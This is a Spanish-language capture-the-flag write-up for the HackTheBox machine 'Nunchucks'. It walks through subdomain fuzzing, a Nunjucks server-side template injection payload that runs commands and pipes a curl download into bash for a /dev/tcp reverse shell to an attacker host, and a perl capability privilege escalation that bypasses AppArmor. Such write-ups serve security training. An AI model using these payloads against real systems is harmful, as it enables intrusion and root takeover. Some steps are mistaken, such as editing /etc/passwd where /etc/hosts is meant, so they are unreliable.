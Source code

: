 ## Summary

Tags: #Linux #HTTPS #Fuzzing #SSTI #Capabilities #Nmap 

- IP -> 10.10.11.122
- Ports -> TCP (22,80,443), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 4ubuntu0.3
    - 80 -> HTTP nginx 1.18.0
    - 443 -> HTTPS nginx 1.18.0


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
Launchpad 4ubuntu0.3 -> Bionic
Launchpad nginx 1.18.0 -> Hirsuite 
Dentro de la maquina lo podremos averiguar 

❯ **nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.122  -oG allPorts**
❯ **nmap -sCV -p22,80 10.10.11.122 -oN targeted**

❯ **whatweb \http://10.10.11.122**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
* Nos manda u re-direct, por lo tanto vamos a agregar la url **nunchucks.htb** a nuestro /etc/passwd 

❯ **openssl s_client -connect 10.10.11.122:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443

Ahora nos disponemos a ver la paginas web en el navegador 
En el Wapalyzer podemos ver en 
* Lenguaje de programacion: **Node.js**

Encontramos un **Log in** pero no nos podemos loggear ni registrarnos
Ahora hacemos Fuzzing para buscar subdominios
❯ **gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --url \https://nunchucks.htb -t 200** **-k** 
* Nos descubre un subdominio **store.nunchucks.htb**

❯ **wfuzz -c --hc=404 --hh=30587 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H “Host: FUZZ.nunchucks.htb” \https://nunchucks.htb**

Despues agregamos ese dominio a nuestro **/etc/passwd** y lo miramos en el navegador web

Nos pide que ingresemos un email, al momento de hacerlo vemos que nos devuleve el email en la pantalla de la pagina web.
Por lo que estamos frente a un **Server Side Template Injection** en node.js, por lo que procedemos a buscar en **Google** (**node.js** **nunjunks** **ssti** **(https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)**) el cual nos dara ejemplos de como usar esa vulnerabilidad.

Encontramos estos comando para poder introducisrlos en la pagina web.
```ruby
{{7*7}}@test.com            # Si nos muestra la respuesta en este caso 49, estamos ante un SSTI, colocamos el @test.com por que es un requisito de que lo que entra es un correo electronico.
```

Ahora en la misma pagina de nunjunks nos dice que comando podemos colocar para poder injectar un comando
❯ **{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}@test.com**
* Tail -> Es para leer las ultimas 10 lineas de un archivo
Como esa entrada no se adecua a lo que nos indica que es de un correo, nos disponemos a abrir BurpSuite y desde ahi lo haremos 

❯ **burpsuite &> /dev/null &** Iniciamos el BurpSuite y lo mandamos a segundo plano
❯ **disown** Para independizar el proceso del BurpSuite
Lo que interceptemos lo mandamos al Repeater:
❯ **Ctrl + r** Para mandar lo del proxy al repeater

Esto lo colocaremos en el campo donde esta email, ademas debemos de escapar las comillas dobles internas
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('whoami')\\")()}}@test.com”**
Nos muestra el **whoami** de la maquina victima 

Como podemos ejecutar comandos, primero verificamos si podemos hacernos una peticion con **Curl** si es asi enconces podriamos hacernos una ReverShell para poder ganar acceso al sistema

❯ **python3 -m http.server 80** Nos montamos un servidor http 80
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web

Lo que trata de hacer la maquina al momento de ejecutar el **Curl** es tratar de obtener un **index.html** del servidor web. Por lo que nos disponemos a hacer un archivo que contenga una ReverShell y asi con Netcat podemos ganar acceso al sistema 

❯ **nano index.html**
	**#!/bin/bash**
	**bash -i >& /dev/tcp/10.10.14.2/443 0>&1**


## User
❯ **python3 -m http.server 80** Nos montamos un servidor http 80
❯ **nc -nlvp 443** Para ponernos en escucha por Netcat en espera de la revershell para Linux
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2 | bash')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web para obtener el index.html malicioso y despues hacer que nos lo interprete con Bash

* Hacemos el tratamiento de la consola y buscamos la primer flag -> user.txt

❯ **lsb_release -a** Miramos algunas caracteristicas de la maquina Linux 
❯ **hostname -I** Nos muestra solo la direccion IP (I=i mayuscula)


## Root
❯ **uname -a** Miramos informacion del Kernel
❯ **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid
❯ **id** Para ver si estamos en un grupo especial

❯ **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
❯ **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
* **/usr/bin/perl = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID
	❯ **setcap cap_setuid+ep /usr/bin/perl** 
	❯ **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** Para conseguir la consola interactiva

Pero esto no funciona por lo que buscamos **Apparmor** que es modulo de seguridad del Kernel Linux que permite al administrador del sistema restringir las capabilities de un programa.

❯ **find \-name \*apparmor\* 2>/dev/null** | grep -vE “proc|var|share”** (vE=quitas multiples palabras)

Ahi buscamos
❯ **/etc/apparmor.d** y nos dirigimos a esa ruta con el comando cd. 

Miramos el siguiente archivo 
❯**cat usr.bin.perl** para ver el contenido del archivo y dentro hay un archivo que esta ejecutando un script en perl. 
Por lo que miramos su contenido **/opt/backup.pl**

Despues probamos el siguiente comando
❯ **perl /opt/backup.pl** Este comando solo se puede ejecutar y leer pero no podemos modificarlo, por lo que debemos de buscar un bug para poder entrar.

Buscamos en **Google (apparmor perl bugs)** y nos vamos a la siguiente pagina **bugs.launchpad.net**.
**Shebang** es el nombre que recibe el par de caracteres #! que se encuentran en el inicio de los programas ejecutables interpretados

❯ **cd /tmp/** Nos vamos al directorio tmp ya ahi tenemos ejecucion y lectura 

❯ **touch prueba.sh** Creamos el archivo y nos ayudara a tener una consola interactiva 
	#!/usr/bin/perl
	**use POSIX qw(setuid);**
	**POSIX::setuid(0);**
	**exec "****/bin/sh";

❯ **chmod** **+x prueba.sh** la ejecucion
❯ **./prueba.sh** Ejecutamos el comando anterior.

Despues de ser root nos vamos al directorio con **cd /root/** y obtenemos la flag root.txt




